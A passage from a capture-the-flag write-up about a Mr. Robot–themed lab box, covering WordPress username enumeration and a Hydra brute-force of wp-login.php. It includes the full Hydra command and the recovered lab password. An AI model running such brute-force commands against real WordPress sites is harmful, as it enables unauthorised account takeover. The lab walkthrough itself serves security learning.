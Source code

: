 I did more research about the show (Mr. Robot) the box is based on. I tried out several usernames. Fortunately, WordPress leaks viable usernames, by giving a different prompt if the username exists. `Elliot` is one of them.

![Possible Username](elliot_incorrect_pass.png)

Now that we have a possible username, let's try to determine the password.

### Hydra

With username and wordlist in hand, let's start up Hydra and try to figure out the password:
```
hydra -l Elliot -P ../downloads/fsocity.dic 10.10.111.68 -V http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.111.68%2Fwp-admin%2F&testcookie=1:S=Location
```

Eventually, we get a hit. Time to login.
```
[80][http-post-form] host: 10.10.111.68   login: Elliot   password: ER28-0652
```
## Exploitation

### Browser: /wp-login.php (Admin dashboard)
Upon logging in we are greeted with a dashboard.

![Admin Dashboard](admin_panel.png)

